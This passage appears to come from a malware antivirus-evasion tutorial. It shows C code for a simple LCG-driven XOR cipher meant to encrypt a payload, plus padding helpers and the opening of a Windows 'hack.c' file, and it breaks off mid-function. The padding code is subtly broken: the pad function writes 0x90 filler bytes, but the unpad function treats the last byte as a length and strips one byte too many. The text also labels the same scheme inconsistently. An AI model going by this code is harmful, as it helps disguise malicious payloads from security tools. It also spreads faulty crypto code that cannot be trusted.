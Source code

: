 ```cpp

void mmb_decrypt(unsigned char *data, size_t len) {
  // decryption is the same as encryption for this cipher
  mmb_encrypt(data, len);
}
```

This code implements a very simple *linear congruential generator (LCG)* as a *pseudorandom number generator (PRNG)*. The PRNG is seeded with a "key", and generates a stream of pseudorandom numbers. This stream is then used to `XOR` the data to be encrypted.      

Then, the `pad_data` function fills any extra space with the byte `0x90`:     

```cpp
unsigned char* pad_data(unsigned char* data, size_t len, size_t block_size, size_t *new_len) {
  size_t padding = block_size - len % block_size;
  unsigned char* padded_data = (unsigned char*)malloc(len + padding);
  memcpy(padded_data, data, len);

  for(size_t i = len; i < len + padding; ++i) {
    padded_data[i] = 0x90; // padding with 0x90
  }

  *new_len = len + padding;
  return padded_data;
}
```

The `unpad_data` function reads this byte and removes the appropriate amount of padding. Note that this introduces an upper limit of `255 bytes` for the padding, which is more than enough for block sizes used in practice.      

```cpp
void unpad_data(unsigned char* data, size_t *len) {
  size_t padding = data[*len - 1]; // last byte is the padding length
  *len -= padding + 1; // adjust length to remove padding and padding length byte
}
```

Let's go to encrypt and decrypt payload with this function. The full source is looks like this `hack.c`:      

```cpp
/*
 * hack.c
 * modular multiplication based block cipher (stream cipher)
 * author: @cocomelonc
 * https://cocomelonc.github.io/malware/2023/06/26/malware-av-evasion-18.html
*/
#include <stdio.h>
#include <stdint.h>
#include <string.h>
#include <stdlib.h>
#include <windows.h>

// change these to your own keys
#define MULTIPLIER 0x12345
#define INCREMENT  0x6789

uint32_t state = 0;

void seed(uint32_t seed_value) {
  state = seed_value;
}

uint32_t next_random() {
  // the modulus is 2^32, since we're using a uint32_t
```